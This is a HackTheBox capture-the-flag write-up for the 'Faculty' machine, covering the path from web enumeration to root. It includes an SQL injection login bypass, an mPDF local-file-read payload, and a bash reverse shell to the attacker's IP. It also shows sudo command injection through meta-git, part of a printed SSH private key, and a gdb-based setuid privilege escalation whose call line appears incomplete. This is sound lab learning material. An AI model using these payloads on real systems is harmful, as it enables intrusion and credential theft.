 Hello and welcome back to another write up. This one will be for box Faculty from Hackthebox. Without
further adue let's get to it. 

We will start with nmap scan. 

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-28 13:51 EDT
Nmap scan report for 10.10.11.169 (10.10.11.169)
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
We have two open ports - 80 which is http and 22 which is ssh. There is not much we can do with ssh so we will focus
on port 80 for now. Nmap shows us hostname faculty.htb so we will add to our `/etc/hosts` file with command 
`echo "10.10.11.169 faculty.htb" >> /etc/hosts`. Now let's visit the page itself. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_web.png?raw=true)

We are presented with login page that runs php. Now we will start feroxbuster
to brute force directories. With knowledge that it is php we will run it with flag that specifies just that. 

```
302      GET      359l      693w        0c http://faculty.htb/ => login.php
301      GET        7l       12w      178c http://faculty.htb/admin => http://faculty.htb/admin/
500      GET        0l        0w        0c http://faculty.htb/test.php
200      GET      132l      235w        0c http://faculty.htb/login.php
200      GET      175l      311w        0c http://faculty.htb/admin/login.php
200      GET        1l        0w        0c http://faculty.htb/admin/download.php
301      GET        7l       12w      178c http://faculty.htb/admin/database => http://faculty.htb/admin/database/
301      GET        7l       12w      178c http://faculty.htb/admin/assets => http://faculty.htb/admin/assets/
200      GET        0l        0w        0c http://faculty.htb/admin/ajax.php
301      GET        7l       12w      178c http://faculty.htb/admin/assets/js => http://faculty.htb/admin/assets/js/
200      GET       70l      105w        0c http://faculty.htb/admin/users.php
200      GET      106l      167w        0c http://faculty.htb/admin/home.php
-----redacted-----
```

There are many pages but for now let's focus on the default one. If I try to guess id it says that it is invalid. 
we will workaround that and try sql injection. With the simpliest `'or 1=1-- -` we get in. We also get PHPSESSID cookie.
There is nothing interesting. So time to move to admin directory which was found from feroxbuster. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_web_admin.png?raw=true)

It is some type of management system. First thing that I noticed is the export functionality because these aren't common
in ctfs if they don't have a purpose. It creates pdf and saves it on the server. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_pdf_export.png?raw=true)

Let's download it and find out if there isn't 
any interesting info about how it is created. For this I used exiftool but there many ways to find this out.

```
# exiftool OKLZOtslJv4TycbW8Xaf50HxIV.pdf 
ExifTool Version Number         : 12.44
File Name                       : OKLZOtslJv4TycbW8Xaf50HxIV.pdf
Directory                       : .
File Size                       : 1742 bytes
File Modification Date/Time     : 2022:10:28 16:23:26-04:00
File Access Date/Time           : 2022:10:28 16:23:26-04:00
File Inode Change Date/Time     : 2022:10:28 16:23:26-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Page Layout                     : OneColumn
Producer                        : mPDF 6.0
Create Date                     : 2022:10:28 21:22:02+01:00
Modify Date                     : 2022:10:28 21:22:02+01:00
```

The important thing to note here is the producer - mPDF 6.0. When I first tried to search for vulnerabilities for this version
I couldn't find anything. After that I resorted to looking at github page for this project. After a tidious work we find this
issue(https://github.com/mpdf/mpdf/issues/356) talking about LFI vulnerability caused by injecting annotation tag when generating pdf. (With payload below)

```
 <annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

This looks useful to us. Now we will catch the burpsuite request and change the contents of the request to this payload. 
We see that the parameter payload gets base64 encoded before it gets send. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_burp1.png?raw=true)

This can be done numerous ways - cyberchef, commandline
or in burp itself. The final request looks like this:

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_burp2.png?raw=true)

At first sight it looks like it didn't work but when we look at the attachements on the left there is a passwd which is the file 
we wanted. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_pdf1.png?raw=true)

Now using the same method but changing the file name in payload we will get the source code for the application. We will start with `index.php`. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_source1.png?raw=true)

Now we will download the `login.php` (found in feroxbuster on in the `index.php` file). This one shows 
`include('./db_connect.php');` this looks promising as it is likely to leak some creadentials and as we find out it does. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_db_connect.png?raw=true)

We have now have password which we can try to use with ssh. But to which user does it belong to ? We have users
that are on the box in passwd file we got earlier. Let's grep for users with `/bin/bash` shell.

```
# cat passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash

```

If we try one by one we find that it works for the user gbyolo. Running `sudo -l` as first thing shows us that
we have permission to run meta-git as developer user. 

```
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

Meta-git isn't on gtfo bins so we have to look somewhere how to weaponize it. I found this hackerone report - 
https://hackerone.com/reports/728040. With this I'll create bash shell and put it in /tmp/shell.sh

```
gbyolo@faculty:/tmp$ cat shell.sh 
bash -i >& /dev/tcp/10.10.14.141/4242 0>&1
```

Set up a nc listener and run command `sudo -u developer /usr/local/bin/meta-git clone 'sss||bash /tmp/shell.sh'` and we have
connection at our netcat. I could upgrade our shell but since developer has .ssh directory with id_rsa in it, I can just
use that and use it to connect to the box.

```
developer@faculty:~/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxDAgrHcD2I4U329//sdapn4ncVzRYZxACC/czxmSO5Us2S87dxyw
izZ0hDszHyk+bCB5B1wvrtmAFu2KN4aGCoAJMNGmVocBnIkSczGp/zBy0pVK6H7g6GMAVS
pribX/DrdHCcmsIu7WqkyZ0mDN2sS+3uMk6I3361x2ztAG1aC9xJX7EJsHmXDRLZ8G1Rib
KpI0WqAWNSXHDDvcwDpmWDk+NlIRKkpGcVByzhG8x1azvKWS9G36zeLLARBP43ax4eAVrs
Ad+7ig3vl9Iv+ZtRzkH0PsMhriIlHBNUy9dFAGP5aa4ZUkYHi1/MlBnsWOgiRHMgcJzcWX
OGeIJbtcdp2aBOjZlGJ+G6uLWrxwlX9anM3gPXTT4DGqZV1Qp/3+JZF19/KXJ1dr0i328j
saMlzDijF5bZjpAOcLxS0V84t99R/7bRbLdFxME/0xyb6QMKcMDnLrDUmdhiObROZFl3v5
-----snip snip-----
```

Now I downloaded copy of linpeas from my python server. 
```
developer@faculty:/tmp$ wget http://10.10.14.132:8000/linpeas.sh                                                                   
--2022-11-01 20:25:54--  http://10.10.14.132:8000/linpeas.sh
Connecting to 10.10.14.132:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776073 (758K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                  100%[========================================================================================================================================>] 757.88K  1.04MB/s    in 0.7s    

2022-11-01 20:25:54 (1.04 MB/s) - ‘linpeas.sh’ saved [776073/776073]

developer@faculty:/tmp$ chmod +x linpeas.sh 
developer@faculty:/tmp$ ./linpeas.sh 

```

We find this
```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb                                                                                                                                                                                    
```
No we need to find process to attach to gdb. 
```
developer@faculty:/tmp$ ps -aux | grep root
```
After few tries I found that this can be used:
```
root         729  0.0  0.9  26896 18220 ?        Ss   21:22   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers

```
I attach it to gdb with 
```
gdb -p <PID>
```
(in my case 729).
Now I found that to call function from gdb (https://www.zeuthen.desy.de/dv/documentation/unixguide/infohtml/gdb/Calling.html) you can use `call $expr`
So the final exploit looks like this:

```
developer@faculty:/tmp$ gdb -p 729
(gdb) call ("chmod +s /bin/bash")

```
This makes bash setuid and with tag -p it keeps permission so I get root shell.

```
developer@faculty:/tmp$ ls -la /bin/bash
-rwsr-s--x 1 root root 1183448 Apr 18  2022 /bin/bash
developer@faculty:/tmp$ /bin/bash -p
bash-5.0# id
uid=1001(developer) gid=1002(developer) euid=0(root) egid=0(root) groups=0(root),1001(debug),1002(developer),1003(faculty)
bash-5.0# cat /root/root.txt
887e---redacted-------
```
This wraps up the box.
Thank you for reading this write up. If you have any questions, feedback or suggestion or just want to play ctfs with someone you can reach out to me at
https://twitter.com/Vojtech1337